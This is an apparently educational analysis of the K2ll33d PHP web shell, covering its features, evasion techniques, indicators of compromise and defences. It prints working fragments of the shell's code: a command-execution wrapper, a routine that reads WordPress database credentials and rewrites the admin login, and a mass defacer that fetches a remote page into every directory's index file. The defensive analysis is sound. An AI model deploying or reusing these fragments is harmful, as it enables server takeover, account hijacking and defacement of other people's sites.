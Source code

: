 # K2ll33d Shell: Analysis of a Hacking Tool 🛡️🔍

> ⚠️ **Warning:** This article is for educational purposes and security awareness only. The information provided should be used solely to protect systems and respond to security incidents in an ethical and legal manner.

## What is K2ll33d Shell? 🤔

K2ll33d Shell is an advanced PHP web shell used by attackers to remotely control compromised web servers. Unlike simpler shells, this malware offers a complete graphical interface and numerous functionalities that facilitate the exploitation of vulnerable systems.

## Key Features 🔑

- 🖥️ **Graphical interface:** Design with menus, forms, and CSS styles
- 📂 **File navigation:** Complete exploration of the file system
- 💻 **Command execution:** Terminal to execute system commands
- 🔌 **CMS tools:** Specific functions for WordPress and Joomla
- 🌐 **Remote connections:** Bind shell, reverse shell, and Metasploit connection
- 🔨 **Hacking tools:** Symlinker, mass defacer, brute forcer, etc.

## How K2ll33d Shell Works 🔄

The analyzed code is an extensive PHP script (over 2000 lines) that implements multiple malicious functionalities. When loaded on a compromised server, it provides a web interface from which the attacker can control the system.

> 💡 **Basic operation:** The shell is loaded onto the server through vulnerabilities such as SQL injection, unvalidated file uploads, or compromised credentials. Once installed, the attacker accesses it through a web browser.

## Using K2ll33d Shell (Technical Analysis) 🔬

The code begins with basic functions for manipulating files and executing commands:

```php
// Function to execute system commands
function exe($cmd) {
    if(function_exists('system')) {
        @ob_start();
        @system($cmd);
        $buff = @ob_get_contents();
        @ob_end_clean();
        return $buff;
    } elseif(function_exists('exec')) {
        @exec($cmd,$results);
        $buff = "";
        foreach($results as $result) {
            $buff .= $result;
        } 
        return $buff;
    } elseif(function_exists('passthru')) {
        // Alternative code...
    }
}
```

The shell implements multiple modules accessible from its main menu:

1. 📁 **File Explorer:** Allows navigation through the file system, creating, editing, deleting, and downloading files.
2. 🖲️ **Shell:** Provides a terminal to execute system commands.
3. 📤 **Upload:** Allows uploading files to the server from the local machine or from remote URLs.
4. 🔗 **Symlinker:** Creates symbolic links to access files outside the web directory.
5. 📝 **Eval PHP:** Executes arbitrary PHP code on the server.
6. 📡 **Remote Connection:** Establishes bind shell or reverse shell connections.
7. 🗄️ **MySQL Manager:** Interface for managing MySQL databases.
8. 🧨 **Mass Defacer:** Modifies multiple files simultaneously.
9. 🔓 **Brute Force:** Attacks services like FTP or cPanel using brute force.
10. 🎯 **Joomla/WordPress Tools:** Specific tools to compromise these CMS.

## Example of Use: Changing WordPress Credentials 🔐

The code includes a function to change WordPress admin credentials:

```php
// Simplified fragment of the code
if ($_POST['kill']) {
    $url = $_POST['url'];
    $user = $_POST['user'];
    $pass = $_POST['pass'];
    $pss = md5($pass);
    
    // Extract configuration information
    $config = file_get_contents($url);
    $password = enter($config,"define('DB_PASSWORD', '","');");
    $username = enter($config,"define('DB_USER', '","');");
    $db = enter($config,"define('DB_NAME', '","');");
    $prefix = enter($config,'$table_prefix  = \'',"';");
    $host = enter($config,"define('DB_HOST', '","');");
    
    // Connect to the database
    $conn = @mysql_connect($host,$username,$password);
    @mysql_select_db($db,$conn);
    
    // Update admin credentials
    $query = mysql_query("UPDATE `".$prefix."users` SET `user_login` = '".$user."',`user_pass` = '".$pss."' WHERE `ID` = 1");
}
```

## Evasion Techniques 🥷

K2ll33d Shell implements several techniques to evade detection:

- 🔄 Use of multiple alternative functions when the main ones are disabled
- 🛡️ Ability to operate in PHP's "safe_mode"
- 🔒 Obfuscation of parts of the code using base64
- 📡 Communication with external servers controlled by the attacker

## Signs of Compromise 🚩

The following indicators may suggest that a server has been compromised with this web shell:

- 📄 Suspicious PHP files with random names or that attempt to appear legitimate
- 🔄 Unexpected modifications to system files
- 📶 Unusual network traffic to unknown IP addresses
- 📈 Unexplained increase in server resource usage
- 👤 New administrator accounts or changes in existing user permissions

## Protection Measures 🛡️

- 🔄 Keep all software updated (CMS, plugins, themes)
- 🔑 Implement robust password policies and two-factor authentication
- 🔒 Configure restrictive permissions on the file system
- 🧱 Use Web Application Firewall (WAF)
- 👁️ Monitor file integrity with tools like Tripwire
- ⛔ Disable dangerous PHP functions like `system()`, `exec()`, `shell_exec()`
- 💾 Regularly create and verify backups

> ⚠️ **Important:** If you discover this type of code on your server, you should consider it compromised. Isolate the server, preserve evidence, remove the malware, restore from clean backups, and change all credentials before putting the system back into production.

## Advanced Functionality Analysis 🔬

The shell contains several sophisticated modules for attacking different systems:

```php
// Mass defacement function
elseif(isset($_GET['x']) && ($_GET['x'] == 'mass')){
    error_reporting(0);
    ?><center><br><br><div class="mybox"><h2 class="k2ll33d2">Folder Mass Defacer</h2>
    <center/><br><center><form ENCTYPE="multipart/form-data" action="<?$_SERVER['PHP_SELF']?>" method=post>
    Folder :<br/><input class="inputz" typ=text name=path size=60 value="<?=getcwd();?>">
    <br>File Name :<br/><input class="inputz" typ=text name=file size=60 value="index.php">
    <br>index URL :<br/><input class="inputz" typ=text name=url size=60 value="">
    <br><input class="inputzbut" type=submit value=Deface></form></div></center>
    <?php @error_reporting(0);
    $mainpath=$_POST[path];
    $file=$_POST[file];
    $indexurl=$_POST[url];
    echo "<br>";
    $dir=opendir("$mainpath");
    while($row=readdir($dir)){
        $start=@fopen("$row/$file","w+");
        $code=@file_get_contents($indexurl);
        $finish=@fwrite($start,$code);
        if ($finish){
            echo "&#187; $row/$file  &#187; Done<br><br>";
        }
    }
}
```

## Conclusion 📝

K2ll33d Shell represents a significant threat to web servers due to its versatility and powerful capabilities. Understanding how this malicious tool works is essential for implementing effective protection measures and responding appropriately to security incidents.
